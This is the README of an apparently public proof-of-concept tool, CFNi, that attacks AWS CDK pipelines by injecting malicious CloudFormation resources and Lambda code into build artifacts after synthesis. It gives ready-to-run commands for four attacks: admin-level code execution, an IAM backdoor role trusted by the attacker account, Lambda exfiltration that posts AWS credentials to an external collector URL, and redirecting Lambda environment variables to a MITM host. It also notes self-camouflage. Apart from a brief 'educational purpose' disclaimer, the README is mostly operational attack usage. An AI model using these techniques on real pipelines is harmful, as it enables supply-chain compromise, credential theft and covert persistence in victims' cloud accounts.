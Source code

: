 # CFNi - Cloudformation injection
![Build Status](https://github.com/hupe1980/cfni/workflows/build/badge.svg) 
[![Go Reference](https://pkg.go.dev/badge/github.com/hupe1980/cfni.svg)](https://pkg.go.dev/github.com/hupe1980/cfni)
> CFNi is a proof-of-concept to demonstrate an attack on the populare aws cdk pipeline. It takes advantage of the fact that between the "Synth" step and the use of the cloudformation templates and lambda assets some time passes ("SelfMutate") and no integrity check is performed by default. After receiving an event from s3, the lambda function injects the malicious code/resources into the generated files. SAST/DAST controls and pull request reviews are bypassed and other accounts can also be attacked if the pipeline supports crossaccount deployments.

:warning: This is for educational purpose. Don't try it without permission!

## IAM
CFNi is designed to use a secondary account that you have full access to. The lambda is deployed there. This eliminates the need to have the required permissions in the target account. The credentials for this account should be specified with the `--attacker-profile` flag.

The `--bucket-profile` should have s3:PutBucketNotification permission to the targeted S3 bucket.

The `--s3-access-key-id`, `--s3-secret-access-key` and optionally `--s3-session-token` should have s3:GetObject and s3:PutObject permissions on the target S3 bucket. These credentials are hardcoded into the lambda during deployment and used to read the bucket files and inject the malicious code/resources.

Everything can also only be done in the bucket account. To do this, the same profile must be specified for the `--attacker-profile` and `--bucket-profile` flags. If no access-key is specified, CFNi tries to give the LambaExecutionRole the required s3:GetObject and s3:PutObject permissions.

## Bucket
The relevant bucket can be found in the build project (Synth) under artifacts upload location.

![bucket](assets/artifacs_bucket.png)

## Attacks
The proof-of-concept currently supports the following attacks:
- [CFN Code Execution](#cfn-code-execution)
- [IAM Role Backdoor](#iam-role-backdoor)
- [Lamda Exfiltration](#lambda-exfiltration)
- [Lamda Set Envs](#lambda-set-envs)

### CFN Code Execution
Adds a custom resource with admin permission to run custom code

```
Usage:
  cfni cfn-code-execution [flags]

Examples:
cat > input.js << EOF
async function cfni(event, context) {
	console.log(event)
	return {}
}
EOF

cfni cfn-code-execution --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX -f input.js --runtime nodejs16.x

Flags:
  -b, --bucket string                 bucket name (required)
      --custom-type string            custom type of custom resource (default "CFNICustomResource")
      --environment strings           filter environments (default all environments)
  -f, --filename string               filename of the code execution file
  -h, --help                          help for cfn-code-execution
      --locigal-custom-id string      logical id of custom resource (default "CFNICustomResourceCE34F12B")
      --locigal-lambda-id string      logical id of lambda (default "CFNILambdaFB14A34E")
      --locigal-role-id string        logical id of role (default "CFNIRoleAF22D32D")
      --runtime string                runtime of the code execution
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```


### IAM Role Backdoor
Adds a role with admin permissions.

```
Usage:
  cfni iam-role-backdoor [flags]

Examples:
cfni iam-role-backdoor --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX

Flags:
  -b, --bucket string                 bucket name (required)  
      --environment strings           filter environments (default all environments)
  -h, --help                          help for iam-role-backdoor
      --logical-id string             logical id of the backdoor role (default "MaintenanceRoleBF21E41F")
  -p, --principal string              principal for backdoor role (default root principal of the attacker account)
  -r, --role-name string              name of the backdoor role (default generated role-name)
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Exfiltration
Injects a script that executes a post request with the lambda's environment variables as the body. access-key-id, secret-access-key and session-token are included in the payload.

```
Usage:
  cfni lambda-exfiltration [flags]

Examples:
cfni lambda-exfiltration --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --url https://xxxyem3.oastify.com

Flags:
  -b, --bucket string                 bucket name (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-exfiltration
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)
  -u, --url string                    exfiltration url (required)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

### Lambda Set Envs
Sets lambda environment variables.

```
Usage:
  cfni lambda-set-envs [flags]

Examples:
cfni lambda-set-envs --attacker-profile ap --bucket-profile bp --bucket pipeline-bucket --s3-access-key-id AKIAXXX --s3-secret-access-key Ey123XXX --env API_URL=https://mitm.org

Flags:
  -b, --bucket string                 bucket name (required)
      --env stringToString            lambda environment variable (required)
      --environment strings           filter environments (default all environments)
  -h, --help                          help for lambda-set-envs
      --s3-access-key-id string       s3 access key id
      --s3-secret-access-key string   s3 secret access key
      --s3-session-token string       s3 session token
      --stack strings                 filter stacks (default all stacks)

Global Flags:
      --attacker-profile string   attacker AWS profile
      --attacker-region string    attacker AWS region
      --bucket-profile string     bucket AWS profile
      --bucket-region string      bucket AWS region
  -A, --user-agent string         user-agent to use for sdk calls (default "cfni")
```

## Camouflage
If the lambda is deployed in the bucket account, it camouflages itself ;o)

![camouflage](assets/camouflage.png)

## License
[MIT](LICENCE)